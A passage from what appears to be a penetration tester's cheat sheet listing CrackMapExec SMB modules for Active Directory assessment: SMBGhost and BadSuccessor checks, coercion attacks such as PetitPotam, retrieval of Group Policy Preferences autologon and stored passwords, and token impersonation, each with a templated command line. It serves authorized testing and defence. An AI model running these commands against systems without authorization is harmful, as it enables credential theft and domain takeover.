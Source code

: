```bash
cme smb <ip> -M smbghost
```

## BadSuccessor
#assessment/AD #attack_type/Quickwin #port/445 #port/139 #protocol/smb #access/Anonymous 

Check if a domain user can create a dMSA account or controls an OU where it can be created.

```bash
cme smb <ip> -u <user> -p <password> -M badsuccessor
```

## Coerce
#assessment/AD #attack_type/Quickwin #port/445 #port/139 #protocol/smb #access/Domain_user 

Check for coerce vulnerabilities such as PetitPotam, DFSCoerce, PrinterBug, MSEven and ShadowCoerce.

```bash
cme smb <ip> -u <user> -p <password> -M coerce_plus
```

## GPP Autologin
#assessment/AD #attack_type/Quickwin #port/445 #port/139 #protocol/smb #access/Domain_user 

Searches the Domain Controller for registry.xml to find autologon information and returns the username and password.

```bash
cme smb <ip> -u <user> -p <password> -M gpp_autologin
```

## GPP Password
#assessment/AD #attack_type/Quickwin #port/445 #port/139 #protocol/smb #access/Domain_user 

Retrieves plaintext passwords and other information for accounts pushed through Group Policy Preferences.

```bash
cme smb <ip> -u <user> -p <password> -M gpp_password
```

## Impersonate
#assessment/AD #attack_type/Quickwin #port/445 #port/139 #protocol/smb #access/Admin

List and impersonate windows tokens to run command as locally logged on users.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M impersonate
```

## Check NTLMv1
#assessment/AD #attack_type/Check #port/445 #port/139 #protocol/smb #access/Admin
